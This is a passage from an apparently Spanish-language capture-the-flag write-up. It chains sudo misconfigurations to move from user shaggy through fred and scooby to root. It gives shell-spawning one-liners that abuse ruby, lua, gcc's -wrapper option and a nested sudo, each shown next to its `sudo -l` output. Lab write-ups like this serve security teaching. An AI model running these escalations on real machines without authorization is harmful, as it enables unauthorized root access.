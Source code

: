 ```shell
sudo -u shaggy ruby -e 'exec "/bin/sh"'
```

Y con esto seremos dicho usuario.

## Escalate user fred

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for shaggy on f6a8d22ef0ec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User shaggy may run the following commands on f6a8d22ef0ec:
    (fred) NOPASSWD: /usr/bin/lua
```

Por lo que vemos podemos ejecutar el binario `lua` como el usuario `fred`, por lo que haremos lo siguiente:

```shell
sudo -u fred lua -e 'os.execute("/bin/sh")'
```

Y con esto seremos dicho usuario.

## Escalate user scooby

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for fred on f6a8d22ef0ec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User fred may run the following commands on f6a8d22ef0ec:
    (scooby) NOPASSWD: /usr/bin/gcc
```

Por lo que vemos podemos ejecutar el binario `gcc` como el usuario `scooby`, por lo que haremos lo siguiente:

```shell
sudo -u scooby gcc -wrapper /bin/sh,-s .
```

Y con esto seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for scooby on f6a8d22ef0ec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User scooby may run the following commands on f6a8d22ef0ec:
    (root) NOPASSWD: /usr/bin/sudo
```

Vemos que podremos ejecutar el binario `sudo` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo sudo /bin/bash
```

Y con esto ya seremos `root`, por lo que habremos terminado.
